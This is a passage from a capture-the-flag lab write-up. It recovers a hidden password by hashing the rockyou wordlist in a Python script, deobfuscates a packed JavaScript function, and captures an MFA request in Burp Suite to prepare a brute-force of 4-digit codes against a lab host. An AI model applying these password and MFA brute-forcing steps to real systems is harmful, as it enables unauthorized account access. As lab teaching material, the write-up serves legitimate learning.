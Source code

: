 ```
define('LOGIN_USER', '6a61736f6e5f746573745f6163636f756e74');
```

7. `is_valid_pwd` checks if the md5 hash of the password ends with `001`. I wrote a basic python script to hash words from a wordlist and check if it ends with `001`. We find that the md5 hash of `violet` ends with `001`, so the password is `violet`
```
import hashlib

flag = False

with open("/usr/share/wordlists/rockyou.txt", "r") as file:
    for lines in file:
        line = lines.strip()
        hash = hashlib.md5(line.encode("utf-8")).hexdigest()
        if (hash)[-3:] == '001':
            print(line, hash)
            break
```

8. Login with the credentials and we're directed to a multi-factor authentication page. Check the source of the page and we find another obfuscated function. Run the function in the console and we get `@fred we need to put some brute force protection on here, remind me in the morning... jason`. We can brute force all the 4 digit numbers, so `1000-9999`. But first we need to find how the cookies are sent so we can automate it
```
function handleSubmit() {
  eval(function(p,a,c,k,e,r){e=function(c){return c.toString(a)};if(!''.replace(/^/,String)){while(c--)r[e(c)]=k[c]||e(c);k=[function(e){return r[e]}];e=function(){return'\\w+'};c=1};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p}('0.1(\'@2 3 4 5 6 7 8 9 a b c, d e f g h... i\');',19,19,'console|log|fred|we|need|to|put|some|brute|force|protection|on|here|remind|me|in|the|morning|jason'.split('|'),0,{}));
  return true;
}
```

9. Open up Burp Suite, go to the Proxy tab and open the built in browser. Login to the website using the same credentials as earlier, enter any 4 digit mfa code and find the structure of the request sent to the server. We see that the cookie is sent in the header in the format `Cookie: PHPSESSID=bto7qs70nud0feb21qnr86qad4; user=jason_test_account; pwd=violet` and the data is just `code=1234`
```
POST /console/mfa.php HTTP/1.1
Host: 10.10.15.20
Content-Length: 9
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.15.20
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.15.20/console/mfa.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=bto7qs70nud0feb21qnr86qad4; user=jason_test_account; pwd=violet
Connection: close

code=1234
```
